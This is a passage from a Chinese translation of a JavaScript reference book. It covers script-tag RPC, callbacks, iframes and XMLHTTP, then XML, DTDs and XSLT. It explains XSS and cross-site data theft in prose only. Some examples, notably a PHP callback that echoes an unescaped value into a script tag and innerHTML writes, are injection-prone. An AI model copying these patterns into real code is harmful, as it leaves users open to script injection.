**注意** *这个示例的一个潜在问题是，因为它不断地向页面添加新的 <**script**> 标签，如果页面放置数小时或数天，用户的浏览器最终可能会消耗大量内存。因此，一个好主意可能是改为重新定向现有脚本的 **src**，尽管无论哪种情况，都不能保证长期不会有内存问题。*

实现RPC的服务器端脚本将从某个来源获取新故事，然后构造并返回将它们写入页面的JavaScript。例如，为 [http://demos.javascriptref.com/getnews.php?numstories=4](http://demos.javascriptref.com/getnews.php?numstories=4) 返回的JavaScript可能类似于这样：

```
var news = new Array();

news[0] = "<h2>Plan 9 Replaces Windows as OS of Choice</h2>" +
         "(<a href='/news/stories?id=431'>read more</a>}";

news[1] = "<h2>McDonald's introduces 12 Pattie SuperMac</h2>" +
         "(<a href='/news/stories?id=193'>read more</a>}";

news[2] = "<h2>Google Computer Cluster Achieves Self-awareness</h2>" +
         "(<a href='/news/stories?id=731'>read more</a>}";

news[3] = "<h2>Poll: Tech Book authors considered unfunny</h2>" +
         "(<a href='/news/stories?id=80'>read more</a>}";
```

```
var el = document.getElementById("news");   // Where to put the content

el.innerHTML = "";                          // Clear current content

for (var i=0; i<news.length; i++)
    el.innerHTML += news[i];                // Write content into page
```

新闻演示如图19-1所示。


#### 图19-1：来自 JavaScript Ref 作者的不太可能的新闻

虽然很明显你可以使用元刷新或JavaScript重定向实现类似的效果，但动态内容方法不需要重新加载页面，并允许你从不同的来源独立更新多个内容区域。你只需要注意保持命名一致，这样服务器返回的脚本才能访问页面的相应部分。

> **注意** *那些熟悉JavaScript同源策略（[第22章](chapter22)）的人可能会想，如果RPC是向获取文档之外的服务器发起的，这种技术是否有效。答案是肯定的，因为外部链接的脚本不受同源策略的限制。*

### 跨站脚本攻击

在实现动态内容获取时，你需要*极其*小心以避免跨站脚本攻击漏洞。[第22章](chapter22)有更多信息，但基本思想是：如果你的服务器端脚本接受查询参数，然后直接在响应中将它们写回而不进行转义，攻击者就可以在URL中传递JavaScript，然后浏览器会在你的网站上下文中执行该JavaScript。例如，攻击者可以构造一个包含JavaScript的URL来窃取用户的Cookie，然后发送垃圾邮件。

### 服务器端计算

动态内容方法不仅限于获取内容；你可以用它来执行用JavaScript不可能（或至少非常不方便）完成的服务器端计算。举个例子，假设你希望为页面上的一个 **<textarea>** 提供拼写检查功能。在你的脚本中包含一个字典和拼写纠正代码，充其量也是笨重的，因此这个功能最好通过RPC在服务器上实现。

以下示例说明了基本概念。为简单起见，这个脚本只检查 **<input>** 中输入的单个单词，但你可以扩展它来检查整个 **<textarea>**。请注意我们如何使用一个变量来指示RPC已完成。

```
<!DOCTYPE html PUBLIC "-//W3C//DTD XHTML 1.0 Transitional//EN"
"http://www.w3.org/TR/xhtml1/DTD/xhtml1-transitional.dtd">

<html xmlns="http://www.w3.org/1999/xhtml">

<head>

<title>RPC Spellchecker</title>

<meta http-equiv="content-type" content="text/html; charset=ISO-8859-1" />

<script type="text/javascript">
<!--
var commandURL = "http://demos.javascriptref.com/checkspelling.php?";

var rpcComplete = false;

var rpcResult = null;

var timer = null;

// Sends the RPC given in url. The server will return JavaScript that sets
// rpcComplete to true and rpcResult to either true (meaning the word is
// spelled correctly) or a string (containing the corrected spelling).

function sendRPC(url)
{
  // If an rpc is pending, wait for it to complete.
  if (timer)
  {
    setTimeout("sendRPC('" + url + "')", 71);  // Try again in 71ms
    return;
  }

  rpcComplete = false;

  var newScript = document.createElement('script');
  newScript.src = url;
  newScript.type = "text/javascript";
  document.body.appendChild(newScript);
  readResponse();
}

function checkSpelling(word)
{
  var params = "word=" + word;
  sendRPC(commandURL + params);
}

function readResponse()
{
  if (!rpcComplete)
  {
    timer = setTimeout(readResponse, 50);
    return;
  }

  // RPC is complete, so check the result

  if (rpcResult === true)
    alert("Word is spelled correctly.");
  else
    alert("Word appears to be misspelled. Correct spelling might be " +
          rpcResult);

  timer = rpcResult = null;
```


```markdown
#### 服务器端拼写纠正

当你在前一个示例的输入框中输入 "the" 时，服务器端的 CGI 脚本可能会返回

```javascript
rpcComplete = true;
rpcResult = true;
```

如果你输入一个拼写错误的单词，例如 "absquatalate"，服务器应返回纠正后的拼写：

```javascript
rpcComplete = true;
rpcResult = "absquatulate";
```

这个示例的运行效果如图 19-2 所示。

前述脚本中有一个方面特别值得注意：如果我们想要在一个 RPC 请求仍在处理时发送另一个 RPC 请求，必须等待第一个请求完成。一旦浏览器开始加载第一个 RPC 的 `<script>`，我们就无法停止它，如果在此期间启动另一个 RPC，就会有覆盖返回值的风险。有几种方法可以解决这个问题。例如，你可以维护定时器和返回值的数组，以便并发管理多个请求。另一种更优雅的方法是使用回调。

#### 回调

*回调* 是在 RPC 完成时将被调用的函数。其理念很简单：不必周期性地检查 RPC 是否已完成，而是让服务器返回的脚本直接调用一个函数。

使用回调可以简化我们的拼写纠正脚本：

```javascript
<script type="text/javascript">

var commandURL = "http://demos.javascriptref.com/checkspelling.php?";

// 发送给定的 RPC。服务器将返回调用
// RPCComplete() 并传入结果的 JavaScript。

function sendRPC(url)
{
    var newScript = document.createElement('script');
    newScript.src = url;
    newScript.type = "text/javascript";
    document.body.appendChild(newScript);
}

function checkSpelling(word)
{
    var params = "word=" + word;
    sendRPC(commandURL + params);
}

function RPCComplete(rpcResult)
{
    if (rpcResult === true)
        alert("Word is spelled correctly.");
    else
        alert("Word appears to be misspelled. Correct spelling might be " +
              rpcResult);
}
```

在这个新版本中，当你在输入框中输入 "the" 时，服务器端脚本将返回类似以下内容：

```javascript
RPCComplete(true);
```

如果你输入拼写错误的单词如 "absquatalate"，服务器应将正确的拼写传递给完成函数：

```javascript
RPCComplete("absquatulate");
```

大多数开发者在加载外部 JavaScript 库时选择使用标志技术，但在执行 RPC 时使用回调。这是因为前者在有多个外部脚本时更容易协调，而后者在仅加载一个脚本进行 RPC 时更为简单。

### `<iframe>`元素

也可以使用 `<iframe>` 和 JavaScript 的组合来进行双向远程通信。在某些方面，内联框架比其他 RPC 方法更容易一些，因为每个 `<iframe>` 都代表一个完整的文档，可以轻松定位。例如，如果你有一个这样的内联框架：

```html
<iframe name="iframe1" id="iframe1">
</iframe>
```

你可以用如下表单定位该框架：

```html
<form name="myform" id="myform" action="load.cgi" method="get"
      target="iframe1">
    <input type="text" name="username" id="username" />
    <input type="submit" value="send" />
</form>
```

表单提交的结果将显示在 `<iframe>` 中，而不是主窗口，因为 target 属性设置为该 `<iframe>`。然后服务器端可以发送一个结果显示在 `<iframe>` 中，用户可以直接查看，或者由 JavaScript 读取。

为了使用内联框架创建一个基本的 RPC 示例，我们需要使用 DOM 动态创建 `<iframe>`，然后使用 CSS 将其隐藏。一旦完成，我们就可以自由设置 `<iframe>` 的 src 或 location，然后在其 body 中读取响应，或者使用脚本将内容传回外层窗口。以下简单示例演示了这一思路。

```html
<!DOCTYPE html PUBLIC "-//W3C//DTD XHTML 1.0 Transitional//EN"
  "http://www.w3.org/TR/xhtml1/DTD/xhtml1-transitional.dtd">
<html xmlns="http://www.w3.org/1999/xhtml">
<head>
    <title>Iframe RPC</title>
    <meta http-equiv="Content-Type" content="text/html; charset=iso-8859-1" />
</head>
<body>
<form action="#" method="get">
    <input type="text" name="username" id="username" />
    <input type="button" value="send" onclick="send(this.form.username.value);" />
</form>

<h1>The Server Response</h1>
<div id="response"></div>

<script type="text/javascript">
<!--
    var theIframe = document.createElement("iframe");
    theIframe.setAttribute("src", "");
    theIframe.setAttribute("id", "myIframe");
    theIframe.style.visibility='hidden';
    document.body.appendChild(theIframe);

    function send(sendValue)
    {
        var newLocation = 'iframeResponse.php?sendvalue='+escape(sendValue);
        theIframe.src = newLocation;
    }
    function RPCComplete(msg)
    {
        var region = document.getElementById('response');
        region.innerText = msg;
    }
//-->
</script>
</body>
</html>
```

在这种情况下，**iframeResponse.php** 程序接收消息，并通过调用主窗口中的 **RPCComplete()** 函数向用户返回响应。以下是处理 RPC 的服务器端 PHP 脚本片段示例。**$message** 的值先前已计算得出——这里我们仅旨在展示回调的工作方式。

```php
<?php
    echo "<script>" ;
    $call = "window.parent.RPCComplete('".$message."');";
    echo $call;
    echo "</script>";
?>
```

为了查看实际效果，你需要将这两个文件放到服务器上。如果无法实现，请访问 http://demos.javascriptref.com/iframedemo.html 查看在线演示。随着你逐渐掌握更复杂的 JavaScript，你应该尝试更加熟悉使用 `<iframe>`，因为它们不仅可用于远程脚本，还可用于存储 XML 数据。

> **注意** *由于 `<iframe>` 是完整的窗口，许多浏览器会将它们视为导航历史的一部分，因此使用“后退”按钮可能会带来问题。*

### XMLHTTP

到目前为止，我们介绍的技术都是将标准浏览器功能用于其原本设计之外的用途。因此，它们缺乏许多你可能希望在基于 HTTP 的 RPC 中拥有的功能，例如检查 HTTP 返回码以及为请求指定用户名/密码认证信息。现代浏览器允许你以更加简洁、优雅的方式进行 JavaScript RPC，通过灵活的接口支持前述 hack 方法所缺少的功能。

Internet Explorer 5 及更高版本支持 **XMLHTTP** 对象，而基于 Mozilla 的浏览器提供了 **XMLHttpRequest** 对象。这些对象允许你创建任意的 HTTP 请求（包括 POST），将它们发送到服务器，并读取完整的响应，包括消息头。表 19-1 显示了 **XMLHTTP** 对象的属性和方法。

#### 表 19-1：XMLHTTP 对象的属性和方法

| 属性或方法 | 说明 |
|---|---|
| **readyState** | 表示请求状态的整数，可以是 0（未初始化）、1（加载中）、2（已接收响应头）、3（已接收部分响应体）或 4（请求完成）。 |
| **Onreadystatechange** | 每当 **readyState** 变化时要调用的函数。 |
| **status** | 服务器返回的 HTTP 状态码（例如 "200"）。 |
| **statusText** | 服务器返回的完整 HTTP 状态行（例如 "200 OK"）。 |
| **responseText** | 服务器完整响应的字符串形式。 |
| **responseXML** | 一个 **Document** 对象，表示服务器响应解析为 XML 文档的结果。 |
| **abort()** | 取消异步 HTTP 请求。 |
| **getAllResponseHeaders()** | 返回一个字符串，包含服务器在响应中发送的所有 HTTP 消息头。每个消息头是由冒号分隔的名称/值对，消息头行之间由回车/换行符对分隔。 |
| **getResponseHeader(*headerName*)** | 返回与服务器返回的 *headerName* 消息头对应的字符串值（例如 **request.getResponseHeader("Set-cookie")**）。 |
| **open(*method, url* [, *asynchronous* [, *user, password*]])** | 初始化请求，准备发送到服务器。*method* 参数是要使用的 HTTP 方法，例如 GET 或 POST。*url* 是请求将发送到的 URL。可选的 *asynchronous* 参数指示 **send()** 是立即返回还是在请求完成后返回（默认值为 **true**，表示立即返回）。可选的 *user* 和 *password* 参数用于 URL 需要 HTTP 认证时使用。如果 URL 需要认证但未指定参数，将提示用户输入。 |
| **setRequestHeader(*name, value*)** | 添加由 *name*（不含冒号）和 *value* 参数指定的 HTTP 消息头。 |
```


| 属性或方法 | 说明 |
|---|---|
| send(body) | 向服务器发起请求。body 参数应当包含请求体，即对于 POST 请求，应为一个包含 fieldname=value&fieldname2=value2… 的字符串；对于 GET 请求，则为空字符串（""）。 |

**注意** 由于这些对象的接口和功能完全相同，我们将任意地把两者都称为 **XMLHTTP** 对象。

**注意** Internet Explorer 支持表 19-1 中未列出的两个属性。**responseBody** 属性以原始（未解码的）字节数组形式保存服务器的响应，而 **responseStream** 保存一个实现了 IStream 接口的对象，通过它可以访问响应内容。Mozilla 支持 **onload** 属性，你可以为其设置一个函数，当异步请求完成时会被调用。然而，由于这些属性都是浏览器特有的，我们不会讨论它们。你可以在相应浏览器厂商的网站上找到更多相关信息。

表 19-1 中列出的一些属性和方法，例如 **responseText** 和 **getAllResponseHeaders()**，在请求完成之前是不可用的。在它们就绪之前尝试访问会导致抛出异常。

### 创建和发送请求

XMLHTTP 请求可以是同步的或异步的，由 **open()** 的可选第三个参数指定。*同步* 请求的 **send()** 方法只会在请求完成后才返回，也就是说，请求"在你等待时"完成。*异步* 请求的 **send()** 方法会立即返回，下载在后台进行。要查看异步请求是否已完成，你需要检查其 **readyState**。异步请求的优势在于，你的脚本在请求发出和接收响应期间可以继续处理其他事务，例如，你可以并行下载多个请求。

在基于 Mozilla 的浏览器中创建 **XMLHTTP** 对象，需要使用 **XMLHttpRequest** 构造函数：

```
var xmlhttp = new XMLHttpRequest();
```

在 IE 中，你需要实例化一个新的 MSXML **XMLHTTP** ActiveX 对象：

```
var xmlhttp = new ActiveXObject("Msxml2.XMLHTTP");
```

一旦获得 **XMLHTTP** 对象，同步请求的基本用法如下：

1. 使用 **open()** 设置请求参数。
2. 使用 **setRequestHeader()** 设置任何你希望发送的自定义请求头。
3. 使用 **send()** 发送请求。
4. 从某个与响应相关的属性中读取响应。

以下示例说明了这一概念：

```
if (document.all)
    var xmlhttp = new ActiveXObject("Msxml2.XMLHTTP");
else
    var xmlhttp = new XMLHttpRequest();

xmlhttp.open("GET", "http://www.example.com/somefile.html", false);
xmlhttp.send("");
alert("Response code was: " + xmlhttp.status)
```

异步请求的步骤序列类似：

1. 使用 **open()** 设置请求参数。
2. 使用 setRequestHeader() 设置任何你希望发送的自定义请求头。
3. 将 onreadystatechange 属性设置为一个函数，当请求完成时会被调用。
4. 使用 send() 发送请求。

以下示例说明了一个异步请求：

```
if (document.all) 
    var xmlhttp = new ActiveXObject("Msxml2.XMLHTTP");
else 
    var xmlhttp = new XMLHttpRequest();

xmlhttp.open("GET", window.location);
xmlhttp.onreadystatechange = function() {
    if (xmlhttp.readyState == 4)
        alert("The text of this page is: " + xmlhttp.responseText);
};

xmlhttp.setRequestHeader("Cookie", "FakeValue=yes");
xmlhttp.send("");
```

处理异步请求时，你不必使用 onreadystatechange 处理程序。相反，你可以定期检查请求的 readyState 以判断是否完成。

### POST 请求

你可以在很大程度上以与 GET 请求相同的方式向服务器 POST 表单数据。唯一的区别是使用 POST 方法并适当设置请求的内容类型（即设置为 "application/x-www-form-urlencoded"）。

```
var formData = "username=billybob&password=angelina5";

var xmlhttp = null;

if (document.all) 
    xmlhttp = new ActiveXObject("Msxml2.XMLHTTP");
else if (XMLHttpRequest)
    xmlhttp = new XMLHttpRequest();

if (xmlhttp) {
    xmlhttp.open("POST", "http://demos.javascriptref.com/xmlecho.php", false);
    xmlhttp.setRequestHeader("Content-Type", "application/x-www-form-urlencoded");
    xmlhttp.send(formData);
}
```

```
document.write("<hr />" + xmlhttp.responseText + "<hr />");
```

我们将在[第 20 章](Chapter 20)中看到如何发送的不仅仅是表单数据，而是实际的 XML。但在那之前，关于这些功能我们需要发出一些警告。

#### 安全问题

如果你尝试向不同于获取包含该脚本的文档的服务器发起 **XMLHTTP** 请求，用户必须在安全对话框中确认该请求。要理解为什么这是一件好事，假设不需要确认。那么，如果你从在线银行网站跳转到 **evilsite.com** 的页面而没有先注销，**evilsite.com** 上的脚本就可以发起 **XMLHTTP** 请求，静默下载你的银行信息。然后这些信息可以被上传到 **evilsite.com**，其结果可想而知。本质上，如果没有用户确认步骤，**XMLHTTP** 可能会被用来违反同源策略（[第 22 章](Chapter 22)）。

### 内部浏览的问题

无需与服务器进行可见的往返即可更新页面的能力，通常被称为 *innerbrowsing*（内部浏览）。内部浏览的优势在于为用户呈现一个无缝且流畅的站点界面，几乎就像页面是一个应用程序。但它也有显著的可用性问题。

一个主要问题是页面状态很容易丢失。也就是说，任何由用户操作导致的页面更改在下次用户加载时都不会保留。如果用户点击"刷新"、页面已被收藏，或者用户希望将其链接发送给朋友，这就会造成问题。你可以通过将状态信息存储在 cookie 中来解决其中的许多问题，但这样做可能很繁琐，而且可能不值得如此大费周章，特别是当页面上的内容频繁变化时。

内部浏览的另一个重大问题是，它改变了传统的 Web 浏览模式，往往带来令人困扰的后果。例如，对于终端用户而言，内部浏览可能似乎会破坏或修改"后退"按钮的含义。在许多浏览器中，根据你实现 RPC 的方式，点击"后退"按钮可能会循环浏览属于内部浏览的部分，这可能并不理想。使用内部浏览的页面也可能难以可预测地进行收藏。考虑到用户希望收藏他们所处的页面的特定状态，但根据使用内部浏览的方式，这可能无法被记录。同样，由于导航已被显著改变，搜索引擎通常会对面向内部浏览的界面产生问题，这取决于你正在构建的网站或应用的类型，可能构成问题，也可能不构成问题。

然而，尽管存在这些以及其他挑战，内部浏览正在兴起，尤其在 Web 应用中。通过 Flash 和标准 (X)HTML 实现，内部浏览界面提供了类似软件应用程序的体验，如果实施得当，可以极具可用性并使用户满意。

### 小结

从脚本向服务器传递信息非常简单：只需实例化一个以 URL 为源的对象，并将信息放入 URL 中。双向通信则稍微棘手一些。方法范围从返回内容的外部链接 **<script>**，到 **<iframe>** 甚至 **XMLHTTP** 对象。无论选择哪种方法，都必须谨慎行事，以确保远程基于 JavaScript 的 Web 应用以极度防御性的方式编程，不会因等待内容而阻塞，也不会因不可预见的网络问题而失败。


## 第20章：JavaScript与XML

本章我们将简要探讨JavaScript与可扩展标记语言（XML）的交叉领域。XML已迅速成为网络上首选的结构化数据交换方法。如今，许多网站交换XML数据源或以XML文件存储网站内容，以便后续转换为适合站点访问者的呈现媒介，从XHTML到WML（无线标记语言）乃至更多。到目前为止，客户端对XML的使用相对较少，除了以XML构建的专用语言形式，如XHTML、SVG、RSS等。使用JavaScript在客户端操作XML则更为罕见，至少在公共网站上是这样。本章的大部分内容展示了XML和JavaScript的示例，这些示例通常具有专有性、可能变化，并且几乎总是存在缺陷。换句话说，请格外谨慎地进行。

### XML概述

鉴于许多开发者对XML缺乏了解，我们首先对XML及其用途做一个非常简要的概述。如果你已经非常精通XML，可以跳至“DOM与XML”一节，直接深入探讨如何使用JavaScript与XML；否则，请继续阅读，了解所有这些炒作背后的真实情况。

### 格式正确的XML

编写简单的XML文档相当容易。例如，假设你迫切需要定义一个带有标记元素的文档，用以表示一家快餐店的套餐组合，其中包含汉堡、饮料和薯条。你这样做可能是因为这些信息将发送给你的供应商，或者期望通过这种方式接收客户的电子订单，又或者这只是存储餐厅数据的一种便捷方式。无论原因如何，问题是你如何用XML来实现这一点。你只需创建一个文件，例如burger.xml，其中包含以下标记：

```xml
<?xml version="1.0" encoding="UTF-8" standalone="yes" ?>

<combomeal>
    <burger>
        <name>Tasty Burger</name>
        <bun bread="white">
            <meat />
            <cheese />
            <meat />
        </bun>
    </burger>
    <fries size="large" />
    <drink size="large">
        Cola
    </drink>
</combomeal>
```

此示例在Internet Explorer下的渲染效果如图20-1所示。


请注意，浏览器显示的是标记的结构表示，而非屏幕表示。你将在本章后面了解如何使此文件实际呈现出某种外观。首先，看一下文档语法。在很多方面，这个“套餐标记语言”示例（或者你喜欢的话，可以叫CMML）看起来类似于HTML——但你如何知道将元素命名为`<combomeal>`而不是`<mealdeal>`或`<lunchspecial>`呢？你无需知道，因为这完全由你决定。只需选择任何能有意义地表示你想要建模的领域的元素和属性名称。这是否意味着XML没有规则？它有规则，但规则很少、很简单，并且仅与语法相关：

- *文档必须以适当的XML声明开头*，例如：
  `<?xml version="1.0" encoding="UTF-8" standalone="yes" ?>`

  或更简单地：
  `<?xml version="1.0" ?>`

- *必须有一个根元素包裹整个文档。* 例如，在前面的示例中，请注意`<combomeal>`元素如何包裹所有其他元素。事实上，不仅根元素必须包裹所有其他元素，内部元素也应正确闭合。

- *所有元素必须闭合。* 以下
  `<burger>Tasty`
  
  在XML中是不允许的，但
  `<burger>Tasty</burger>`
  
  是允许的。即使元素不包含内容，为了成为有效的XML文档，它们也必须正确闭合，如接下来的规则所述。

- 所有内容为空的元素必须以`/>`结尾来自我标识，就像XHTML一样。空元素类似于HTML中的`<br>`、`<hr>`或``标签。在XML和XHTML中，它们将分别表示为`<br />`、`<hr />`和``。

- 就像编写良好的HTML和XHTML一样，所有元素必须正确嵌套。

  例如，
  `<outer><inner>ground zero</inner></outer>`

  是正确的，而以下则不正确：
  `<outer><inner>ground zero</outer></inner>`

- 所有属性值必须用引号括起来。在传统HTML中，用引号括起来是良好的创作实践，但对于包含除字母（A–Z，a–z）、数字（0–9）、连字符（-）或句点（.）之外字符的值，则是必需的。在XHTML中，如同在XML中一样，引号是必需的。例如，
  `<blastoff count="10"></blastoff>`

  是正确的，而以下则不正确：
  `<blastoff count=10></blastoff>`

- 所有元素的大小写必须保持一致。如果你开始使用一个新元素，如`<BURGER>`，你必须将其闭合为`</BURGER>`，而不是`</burger>`。在文档后面，如果元素是小写的，你实际上是在引用一个称为`<burger>`的新元素。属性名称也区分大小写。

- 有效的XML文件可能不包含某些具有保留含义的字符。这些字符包括像`&`这样的字符，它表示字符实体（如`&amp;`）的开始，或者像`<`这样的字符，它表示元素名称（如`<sunny>`）的开始。

  这些字符必须分别编码为`&amp;`和`&lt;`，或者可以出现在标记为字符数据的节中。事实上，在基本的独立XML文档中，此规则相当严格，因为只允许使用`&amp;`、`&lt;`、`&gt;`、`&apos;`和`&quot;`。

根据前面简单规则构建的文档称为格式正确的文档。查看图20-2，了解未遵循此处所述格式正确规则的文档会发生什么。


标记纯粹主义者可能会觉得格式正确的概念有些困扰。传统SGML没有格式正确文档的概念；相反，它使用有效文档的概念——遵守正式定义的文档类型定义（DTD）的文档。对于任何超出简单应用之外的情况，定义DTD并根据该定义验证文档是真正的益处。XML支持格式正确和有效文档两种形式。仅强制基本语法的格式正确模型，应该能鼓励那些未受过语言设计和语法复杂性训练的人开始创作XML文档，从而使XML像传统HTML一样易于访问。然而，有效模型适用于需要验证文档逻辑结构的应用程序。当我们想要赋予文档意义时，这可能非常重要。

### 有效XML

符合其指定语法的文档称为有效的。与许多HTML文档创作者不同，SGML和XML文档创作者通常关注于生产有效文档。随着XML的兴起，Web开发者可以期待掌握一项新技能：编写语言语法。就XML而言，我们可以以文档类型定义（DTD）的形式编写我们的语言语法，或者作为模式。

为简单起见，我们为前面使用的套餐示例定义了一个DTD。示例语言的定义可以直接插入文档中，尽管此定义也可以保存在文件外部。此处显示的burger2.xml文件在同一个文档中既包含了DTD，也包含了一个符合该语言的文档实例：

```xml
<?xml version="1.0"?>

<!DOCTYPE combomeal [

<!ENTITY cola "Pepsi">

<!ELEMENT combomeal (burger+, fries+, drink+)>

<!ELEMENT burger (name, bun)>
<!ELEMENT name (#PCDATA)>
<!ELEMENT bun (meat+, cheese+, meat+)>
<!ATTLIST bun
    bread (white | wheat) #REQUIRED
>
<!ELEMENT meat EMPTY>
<!ELEMENT cheese EMPTY>
<!ELEMENT fries EMPTY>
<!ATTLIST fries
    size (small | medium | large) #REQUIRED
>
<!ELEMENT drink (#PCDATA)>
<!ATTLIST drink
    size (small | medium | large) #REQUIRED
>

]>

<!-- the document instance -->
<combomeal>
    <burger>
        <name>Tasty Burger</name>
        <bun bread="white">
            <meat />
            <cheese />
            <meat />
        </bun>
```


### 显示 XML

请注意，XML 文档本质上没有预定义的呈现方式；因此我们必须自定义一种呈现方式。虽然这看起来有些麻烦，但实际上这是一件好事，因为它强制将内容结构与呈现方式分离。许多 Web 开发人员已经接受了将 Web 内容以 XML 格式存储，然后使用*eXtensible Style Sheet Transformations*（XSLT）——即*eXtensible Style Sheets*（XSL）规范的一部分——或某种形式的服务器端编程，将其转换为合适的输出格式（如 HTML 或 XHTML 与 CSS）的想法。也可以通过将 CSS 直接绑定到用户自定义元素，在大多数浏览器中以原生方式渲染 XML。

注意*在许多情况下，开发人员在讨论后者提供的功能时，简单地使用 XSL 而非 XSLT 来指代。*

### 使用 XSLT 将 XML 转换为 HTML

通过 XSLT，你可以轻松地转换并格式化 XML 文档。可以使用 XSL 以及其他标记语言（如 HTML 或 XHTML）来匹配各种元素和属性，然后进行输出。让我们使用大多数现代浏览器中支持的客户端处理 XSL 来演示这个想法。考虑以下简单且格式良好的 XML 文档，名为 demo.xml：

```
<?xml version="1.0" ?>
<?xml-stylesheet type="text/xsl" href="test.xsl"?>
<example>
    <demo>Look </demo>
    <demo>formatting </demo>
    <demo>XML </demo>
    <demo>as HTML</demo>
</example>
```

请注意，第二行将一个名为 test.xsl 的 XSL 文件应用于该文档。该文件将创建一个简单的 HTML 文档，并将每个出现的 `<demo>` 标签转换为 `<h1>` 标签。名为 test.xsl 的 XSL 模板如下所示：

```
<?xml version='1.0'?>
<xsl:stylesheet version="1.0"
    xmlns:xsl="http://www.w3.org/1999/XSL/Transform">

<xsl:template match="/">
    <html>
        <head>
            <title>XSL Test</title>
        </head>
        <body>
            <xsl:for-each select="example/demo">
                <h1><xsl:value-of select="."/></h1>
            </xsl:for-each>
        </body>
    </html>
</xsl:template>
</xsl:stylesheet>
```

**注意** *为了使本节中的示例在 Internet Explorer 5 或 5.5 下正常工作，请使用语句* `<xsl:stylesheet xmlns:xsl="http://www.w3.org/TR/WD-xsl">` *来定义 XSL 版本，以替代每个 XSL 文档的第二行。*

给定前面的示例，你可以通过支持 XML 和 XSL 的浏览器（如 Internet Explorer）加载主 XML 文档。一旦应用了 XSL 转换，你将得到以下标记：

```
<html>
<head>
<title>XSL Test</title>
</head>
<body>
<h1>Look</h1>
<h1>formatting</h1>
<h1>XML</h1>
<h1>as HTML</h1>
</body>
</html>
```

在 Internet Explorer 下的示例转换效果如图 20-4 所示。

**图 20-4：** Internet Explorer 支持基本的客户端 XSL。

虽然前面的示例相当简单，但可以创建更加复杂的示例。例如，给定以下表示员工目录的 XML 文档，你可能希望将其转换为传统的基于 HTML 表格的布局：

```
<?xml version="1.0" encoding="UTF-8" standalone="yes" ?>
<directory>
<employee>
    <name>Fred Brown</name>
    <title>Widget Washer</title>
    <phone>(543) 555-1212</phone>
    <email>fbrown@democompany.com</email>
</employee>
<employee>
    <name>Cory Richards</name>
    <title>Toxic Waste Manager</title>
    <phone>(543) 555-1213</phone>
    <email>mrichards@democompany.com</email>
</employee>
<employee>
    <name>Tim Powell</name>
    <title>Big Boss</title>
    <phone>(543) 555-2222</phone>
    <email>tpowell@democompany.com</email>
</employee>
<employee>
    <name>Samantha Jones</name>
    <title>Sales Executive</title>
    <phone>(543) 555-5672</phone>
    <email>jones@democompany.com</email>
</employee>
<employee>
    <name>Eric Roberts</name>
    <title>Director of Technology</title>
    <phone>(543) 567-3456</phone>
    <email>eric@democompany.com</email>
</employee>
<employee>
    <name>Frank Li</name>
    <title>Marketing Manager</title>
    <phone>(123) 456-2222</phone>
    <email>fli@democompany.com</email>
</employee>
</directory>
```

你可能考虑创建一个包含每条员工记录的 XHTML 表格。例如，一个由以下内容表示的员工

```
<employee>
    <name>Employee's name</name>
    <title>Employee's title</title>
    <phone>Phone number</phone>
    <email>Email address</email>
</employee>
```

可能会被转换为如下所示的表格行（`<tr>`）：

```
<tr>
    <td>Employee's name</td>
    <td>Employee's title</td>
    <td>Phone number</td>
    <td>Email address</td>
</tr>
```

你可以使用 XSL 样式表来执行这种转换。以下是 XSL 样式表的一个示例（staff.xsl）：

```
<?xml version='1.0'?>
<xsl:stylesheet version="1.0"
                    xmlns:xsl="http://www.w3.org/1999/XSL/Transform">
<xsl:template match="/">
    <html>
        <head>
            <title>Employee Directory</title>
        </head>
        <body>
            <h1 align="center">DemoCompany Directory</h1>
            <hr/>
            <table width="100%">
                <tr>
                    <th>Name</th>
                    <th>Title</th>
                    <th>Phone</th>
                    <th>Email</th>
                </tr>
                <xsl:for-each select="directory/employee">
                <tr>
                    <td><xsl:value-of select="name"/></td>
                    <td><xsl:value-of select="title"/></td>
                    <td><xsl:value-of select="phone"/></td>
```


```
<td><xsl:value-of select="email"/></td>
</tr>

</xsl:for-each>

</table>

</body>

</html>

</xsl:template>

</xsl:stylesheet>
```

你可以从原始XML文档中引用样式表，在原始 staff.xml 文件中添加以下行：

```
<?xml-stylesheet href="staff.xsl" type="text/xsl"?>
```

将其放置在初始 `<?xml?>` 声明的下方。前面这个示例的输出以及浏览器客户端生成的标记如图 20-5 所示。如果你担心浏览器兼容性，鉴于并非所有浏览器都支持 XSL，你同样可以轻松地将其在服务器端转换为 HTML，或者更好的选择是转换为 XHTML。对于任何公开访问的网页来说，这可能是更安全的做法。


> 注意 *XSL 转换可以创建各种更复杂的文档，包括嵌入的 JavaScript 或样式表。*

前面的讨论仅仅触及了 XSL 的丰富性，它提供了复杂的模式匹配和基本的编程设施。对 XSL 最新发展感兴趣的读者，可以访问 W3C 网站（<http://www.w3.org/Style/XSL/>）以及 Microsoft 的 XML 网站（<http://msdn.microsoft.com/xml>）。

## 使用 CSS 显示 XML 文档

将 XML 转换为 (X)HTML 似乎有些笨拙；更好的方式是提供一个原生的 XML 文件并直接显示它。事实证明，在大多数现代浏览器中，通过直接将 CSS 规则应用于标签，也可以直接渲染 XML。例如，给定以下简单的 XML 文件，你可以通过使用 `<?xml-stylesheet href="样式表的URL" type="text/css"?>` 关联样式表，从而应用一组 CSS 规则，如下所示：

```
<?xml version="1.0" encoding="UTF-8" standalone="yes" ?>
```

```
<?xml-stylesheet href="staff.css" type="text/css"?>
```

```
<directory>
    <employee>
        <name>Fred Brown</name>
        <title>Widget Washer</title>
        <phone>(543) 555-1212</phone>
        <email>fbrown@democompany.com</email>
    </employee>
...
</directory>
```

XML 元素的 CSS 规则与 HTML 或 XHTML 文档的规则基本相同，尽管它们确实需要了解一些较少使用的属性，例如 **display**，以创建有意义的呈现效果。前面展示的 XML 文档的 CSS 规则如下所示，其在 Internet Explorer 下的输出如图 20-6 所示。


```
directory {display: block;}
employee {display: block; border: solid; }
name {display: inline; font-weight: bold; width: 200px;}
title {display: inline; font-style: italic; width: 200px;}
```

```
phone {display: inline; color: red; width: 150px;}

email {display: inline; color: blue; width: 100px;}
```

CSS 中缺少流对象（flow objects），这使得正确显示此 XML 文档变得非常困难。要格式化任何有意义的内容，你可能不得不自己发明换行符、标题或其他结构。在某种意义上，CSS 严重依赖 XHTML 来提供基本的文档结构。然而，或许可以改为简单地将 XHTML 中的此类结构包含到你的文档中。下一节将探讨如何将 XHTML 放入 XML 中，反之亦然。

### 组合 XML 和 XHTML

